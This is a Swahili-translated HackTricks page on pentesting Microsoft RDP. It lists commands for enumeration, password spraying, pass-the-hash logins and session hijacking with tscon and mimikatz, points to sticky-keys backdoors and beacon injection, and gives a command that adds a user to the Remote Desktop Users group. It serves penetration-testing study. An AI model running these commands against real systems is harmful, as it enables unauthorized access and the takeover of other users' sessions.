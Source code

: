 # 3389 - Pentesting RDP

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Mchakato wa haraka wa kutathmini udhaifu & upimaji wa kuingia**. Fanya upimaji kamili kutoka mahali popote na zana 20+ & vipengele vinavyotoka kwenye upelelezi hadi ripoti. Hatubadilishi wapimaji - tunatengeneza zana maalum, moduli za kugundua & kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## Taarifa za Msingi

Imetengenezwa na Microsoft, **Remote Desktop Protocol** (**RDP**) imeundwa kuwezesha muunganisho wa kiolesura cha picha kati ya kompyuta kupitia mtandao. Ili kuanzisha muunganisho kama huo, programu ya mteja ya **RDP** inatumika na mtumiaji, na kwa wakati mmoja, kompyuta ya mbali inahitajika kufanya kazi na programu ya seva ya **RDP**. Mipangilio hii inaruhusu udhibiti na ufikiaji wa mazingira ya desktop ya kompyuta ya mbali, kwa msingi inaletewa kiolesura chake kwenye kifaa cha mtumiaji.

**Bandari ya kawaida:** 3389
```
PORT     STATE SERVICE
3389/tcp open  ms-wbt-server
```
## Uainishaji

### Otomatiki

{% code overflow="wrap" %}
```bash
nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 <IP>
```
{% endcode %}

Inakagua usimbuaji unaopatikana na udhaifu wa DoS (bila kusababisha DoS kwa huduma) na kupata taarifa za NTLM Windows (matoleo).

### [Brute force](../generic-methodologies-and-resources/brute-force.md#rdp)

**Kuwa makini, unaweza kufunga akaunti**

### **Password Spraying**

**Kuwa makini, unaweza kufunga akaunti**
```bash
# https://github.com/galkan/crowbar
crowbar -b rdp -s 192.168.220.142/32 -U users.txt -c 'password123'
# hydra
hydra -L usernames.txt -p 'password123' 192.168.2.143 rdp
```
### Unganisha na akisi/nywila zinazojulikana
```bash
rdesktop -u <username> <IP>
rdesktop -d <domain> -u <username> -p <password> <IP>
xfreerdp [/d:domain] /u:<username> /p:<password> /v:<IP>
xfreerdp [/d:domain] /u:<username> /pth:<hash> /v:<IP> #Pass the hash
```
### Angalia akidi zinazojulikana dhidi ya huduma za RDP

rdp\_check.py kutoka impacket inakuwezesha kuangalia ikiwa akidi fulani ni halali kwa huduma ya RDP:
```bash
rdp_check <domain>/<name>:<password>@<IP>
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Mpangilio wa haraka wa kutathmini udhaifu & pentesting**. Fanya pentest kamili kutoka mahali popote na zana 20+ & vipengele vinavyotoka kwenye recon hadi ripoti. Hatubadilishi pentesters - tunatengeneza zana maalum, moduli za kugundua & kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

## **Mashambulizi**

### Kuiba kikao

Kwa **idhini za SYSTEM** unaweza kufikia **kikao chochote cha RDP kilichofunguliwa na mtumiaji yeyote** bila haja ya kujua nenosiri la mmiliki.

**Pata vikao vilivyofunguliwa:**
```
query user
```
**Upatikanaji wa kikao kilichochaguliwa**
```bash
tscon <ID> /dest:<SESSIONNAME>
```
Sasa utakuwa ndani ya kikao cha RDP kilichochaguliwa na utajifanya kuwa mtumiaji ukitumia tu zana na vipengele vya Windows.

**Muhimu**: Unapofikia vikao vya RDP vilivyo hai, utamfukuza mtumiaji aliyekuwa akivitumia.

Unaweza kupata nywila kutoka kwa mchakato kwa kuipakua, lakini njia hii ni ya haraka zaidi na inakuwezesha kuingiliana na madawati ya virtual ya mtumiaji (nywila katika notepad bila kuhifadhiwa kwenye diski, vikao vingine vya RDP vilivyofunguliwa kwenye mashine nyingine...)

#### **Mimikatz**

Pia unaweza kutumia mimikatz kufanya hivi:
```bash
ts::sessions        #Get sessions
ts::remote /id:2    #Connect to the session
```
### Sticky-keys & Utilman

Kuchanganya mbinu hii na **stickykeys** au **utilman utaweza kupata CMD ya usimamizi na kikao chochote cha RDP wakati wowote**

Unaweza kutafuta RDP ambazo zimewekwa nyuma kwa kutumia moja ya mbinu hizi tayari na: [https://github.com/linuz/Sticky-Keys-Slayer](https://github.com/linuz/Sticky-Keys-Slayer)

### RDP Process Injection

Ikiwa mtu kutoka eneo tofauti au mwenye **privileges bora anapoingia kupitia RDP** kwenye PC ambapo **wewe ni Admin**, unaweza **kuingiza** beacon yako katika **mchakato wa kikao chake cha RDP** na kutenda kama yeye:

{% content-ref url="../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md" %}
[rdp-sessions-abuse.md](../windows-hardening/active-directory-methodology/rdp-sessions-abuse.md)
{% endcontent-ref %}

### Adding User to RDP group
```bash
net localgroup "Remote Desktop Users" UserLoginName /add
```
## Automatic Tools

* [**AutoRDPwn**](https://github.com/JoelGMSec/AutoRDPwn)

**AutoRDPwn** ni mfumo wa baada ya unyakuzi ulioandaliwa katika Powershell, ulioandaliwa hasa kujiendesha katika shambulio la **Shadow** kwenye kompyuta za Microsoft Windows. Uthibitisho huu (ulioorodheshwa kama kipengele na Microsoft) unaruhusu mshambuliaji wa mbali **kuona desktop ya mwathirika wake bila idhini yake**, na hata kuidhibiti kwa mahitaji, akitumia zana za asili za mfumo wa uendeshaji wenyewe.

* [**EvilRDP**](https://github.com/skelsec/evilrdp)
* Dhibiti panya na kibodi kwa njia ya kiotomatiki kutoka kwa mstari wa amri
* Dhibiti ubao wa kunakili kwa njia ya kiotomatiki kutoka kwa mstari wa amri
* Unda proxy ya SOCKS kutoka kwa mteja inayochanganya mawasiliano ya mtandao na lengo kupitia RDP
* Tekeleza amri za SHELL na PowerShell bila kupakia faili
* Pakia na pakua faili kutoka/kwa lengo hata wakati uhamishaji wa faili umekataliwa kwenye lengo

## HackTricks Automatic Commands
```
Protocol_Name: RDP    #Protocol Abbreviation if there is one.
Port_Number:  3389     #Comma separated if there is more than one.
Protocol_Description: Remote Desktop Protocol         #Protocol Abbreviation Spelled out

Entry_1:
Name: Notes
Description: Notes for RDP
Note: |
Developed by Microsoft, the Remote Desktop Protocol (RDP) is designed to enable a graphical interface connection between computers over a network. To establish such a connection, RDP client software is utilized by the user, and concurrently, the remote computer is required to operate RDP server software. This setup allows for the seamless control and access of a distant computer's desktop environment, essentially bringing its interface to the user's local device.

https://book.hacktricks.xyz/pentesting/pentesting-rdp

Entry_2:
Name: Nmap
Description: Nmap with RDP Scripts
Command: nmap --script "rdp-enum-encryption or rdp-vuln-ms12-020 or rdp-ntlm-info" -p 3389 -T4 {IP}
```
<figure><img src="/.gitbook/assets/pentest-tools.svg" alt=""><figcaption></figcaption></figure>

**Mchakato wa haraka wa kutathmini udhaifu & kupenya**. Fanya pentest kamili kutoka mahali popote kwa zana na vipengele zaidi ya 20 vinavyotoka kwenye recon hadi ripoti. Hatubadilishi wapentest - tunatengeneza zana maalum, moduli za kugundua na kutumia ili kuwapa muda wa kuchimba zaidi, kufungua shells, na kufurahia.

{% embed url="https://pentest-tools.com/?utm_term=jul2024&utm_medium=link&utm_source=hacktricks&utm_campaign=spons" %}

{% hint style="success" %}
Jifunze & fanya mazoezi ya AWS Hacking:<img src="/.gitbook/assets/arte.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/arte.png" alt="" data-size="line">\
Jifunze & fanya mazoezi ya GCP Hacking: <img src="/.gitbook/assets/grte.png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/grte.png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Angalia [**mpango wa usajili**](https://github.com/sponsors/carlospolop)!
* **Jiunge na** 💬 [**kikundi cha Discord**](https://discord.gg/hRep4RUj7f) au [**kikundi cha telegram**](https://t.me/peass) au **tufuatilie** kwenye **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Shiriki hila za hacking kwa kuwasilisha PRs kwa** [**HackTricks**](https://github.com/carlospolop/hacktricks) na [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos za github.

</details>
{% endhint %}
